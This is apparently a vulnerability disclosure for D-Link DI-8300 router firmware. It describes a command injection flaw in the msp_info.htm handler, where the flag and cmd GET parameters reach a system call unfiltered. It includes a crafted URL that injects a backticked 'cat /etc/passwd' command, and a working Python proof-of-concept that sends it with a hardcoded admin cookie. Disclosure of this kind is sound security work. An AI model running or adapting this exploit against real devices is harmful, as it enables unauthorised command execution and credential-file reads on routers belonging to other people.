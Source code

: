 # Firmware:
version:DI_8300-16.07.26A1
download link:http://www.dlink.com.cn/techsupport/ProductInfo.aspx?m=DI-8300
# Description:
In the system dangerous function of the msp_info_htm function, parameters are passed through the GET request mode for the flag and cmd variable, resulting in command injection vulnerabilities due to careless concerns.
# Analyse:
Obtain the flag and cmd parameter concatenate the command and run the system function without filtering the following characters.
![[Pasted image 20240806104931.png]]
```
http://192.168.0.1/msp_info.htm?flag=cmd&cmd=`cat%20/etc/passwd%3EAAA.txt`
```
![[Pasted image 20240806105447.png]]
Check the firmware shell. The command is successfully executed
![[Pasted image 20240806105419.png]]
# POC:
```
import requests

ip = "192.168.0.1:80"
payload = "`cat%20/etc/passwd%3EAAA.txt`"

url = "http://"+ip+"/msp_info.htm?flag=cmd&cmd="+payload+""
Cookies = {"wys_userid": "admin,wys_passwd=6B4BED98A39AD592599AF9F3092B1782"}
requests.get(url, cookies=Cookies)
```